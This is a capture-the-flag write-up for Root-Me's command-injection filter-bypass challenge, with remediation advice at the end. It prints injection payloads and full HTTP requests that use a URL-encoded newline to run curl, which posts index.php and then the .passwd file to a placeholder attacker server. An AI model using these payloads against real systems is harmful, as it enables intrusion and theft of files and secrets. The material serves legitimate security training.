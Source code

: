 ## Root-Me.org Challenge Write-Up: Command Injection - Filter Bypass
`https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass`

**Challenge Description:** This challenge involves a web service that accepts an IP address via a POST request and pings it. The goal is to exploit a command injection vulnerability in this service and retrieve the flag stored in the `index.php` file. Various protections are in place, making it necessary to bypass these filters.

### Step-by-Step Solution

#### Step 1: Initial Interaction

1. **Submit an IP Address**:
   - The webpage provides an input box to enter an IP address.
   - Input a simple IP address, such as `127.0.0.1`, and submit to see the expected behavior. This will send a POST request to the server to ping the provided IP address.

#### Step 2: Analyzing Server Response

1. **Capture the Request**:
   - Use a tool like Burp Suite to capture the HTTP request sent when the IP address is submitted.
   - This helps in understanding the structure of the request and how the server processes it.

2. **Inspect the Response**:
   - Check the server's response to understand how it handles the ping command.
   - Typically, a successful ping will result in a "Ping OK" message, while a failed attempt will result in "Ping NOK".

#### Step 3: Identifying Potential Injection Points

1. **Attempt Basic Injection**:
   - Try injecting a simple command to see if the server is vulnerable.
   - For example, submit `127.0.0.1; ls` and check the response. If the server is vulnerable, it may include the output of the `ls` command.

2. **Analyze the Injection Point**:
   - If the basic injection works, note that the server is vulnerable to command injection.

#### Step 4: Crafting a Payload to Bypass Filters

1. **Bypass Basic Filters**:
   - The server may have basic filters to prevent command injection. Commonly filtered characters include `;`, `|`, `&`, and newline characters.
   - Use URL encoding to bypass these filters. For example, `%0a` represents a newline character in URL encoding.

2. **Constructing a Malicious Payload**:
   - Use a payload that reads the content of the `index.php` file and sends it to an external server you control.
   - Example payload: `127.0.0.1;%0a$(curl -d @index.php https://your-server.com)`

#### Step 5: Using Burp Suite to Send the Payload

1. **Intercepting the Request**:
   - Open Burp Suite and ensure Intercept is on.
   - Submit a dummy IP address in the form to capture the request.

2. **Modifying the Request**:
   - In Burp Suite, find the intercepted request and send it to the Repeater.
   - Modify the `ip` parameter to include the injection payload:
     ```plaintext
     ip=127.0.0.1;%0acurl -d @index.php https://your-server.com
     ```

3. **Send the Request**:
   - Click "Send" in the Repeater tab.
   - Check your external server for incoming requests containing the contents of `index.php`.

### Detailed Exploit Example

**Request in Burp Suite**:
```plaintext
POST /web-serveur/ch53/index.php HTTP/1.1
Host: challenge01.root-me.org
Content-Type: application/x-www-form-urlencoded
Content-Length: 75

ip=127.0.0.1;%0acurl -d @index.php https://your-requestbin-url.com
```

### Understanding the Results

After sending the request, check your request capture service (like RequestBin). You should see a request containing the contents of `index.php`. This file includes the code of the webpage, revealing any other potential vulnerabilities or important information like the flag.

**Example Captured Data**:
```plaintext
<?php
// Content of index.php
$flag = "".file_get_contents(".passwd")."";
...
?>
```

From this, you can infer that the flag is stored in a file named `.passwd`.

### Retrieving the Flag

1. **Crafting the Final Payload**:
   - Now that you know the flag is in `.passwd`, modify your payload to read this file.
   - Example payload: `127.0.0.1;%0acurl -d @.passwd https://your-server.com`

2. **Send the Modified Payload**:
   - Intercept and modify the request as previously described, this time with the new payload to read `.passwd`.

**Modified Request**:
```plaintext
POST /web-serveur/ch53/index.php HTTP/1.1
Host: challenge01.root-me.org
Content-Type: application/x-www-form-urlencoded
Content-Length: 74

ip=127.0.0.1;%0acurl -d @.passwd https://your-requestbin-url.com
```

### Understanding the Results

Check your request capture service again. You should now see a request containing the contents of `.passwd`, which includes the flag.

**Example Captured Data**:
```plaintext
flag{example_flag_content}
```

### Remediation

To prevent this vulnerability, the application should:

1. **Use Parameterized Commands**: Avoid directly including user inputs in shell commands. Use parameterized commands or safer alternatives.
2. **Strict Input Validation**: Implement comprehensive validation to ensure only valid IP addresses are accepted.
3. **Escape User Inputs**: Properly escape any user input if it must be included in shell commands.

### Key Takeaways

- **Command Injection**: Command injection vulnerabilities can be exploited by carefully crafting inputs that manipulate the command execution flow.
- **Filter Bypass**: Simple filters can often be bypassed using less common characters or encoding techniques.
- **Request Interception and Modification**: Tools like Burp Suite are essential for testing and exploiting web vulnerabilities.
- **External Data Exfiltration**: Using tools like `curl` to send data to an external server can help in capturing and analyzing sensitive information.

This write-up provides a comprehensive approach to understanding and solving the "Command Injection - Filter Bypass" challenge on Root-Me.org. 
